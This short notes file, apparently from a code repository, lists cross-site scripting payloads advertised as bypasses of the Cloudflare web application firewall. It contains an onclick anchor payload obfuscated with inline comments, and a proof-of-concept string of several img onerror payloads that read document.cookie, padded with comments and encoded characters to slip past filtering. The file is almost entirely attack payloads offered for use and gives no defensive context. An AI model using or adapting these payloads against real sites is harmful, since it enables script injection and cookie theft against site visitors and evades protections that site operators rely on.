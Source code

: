 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```txt
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/);w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040document.cookie)/**/>"&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
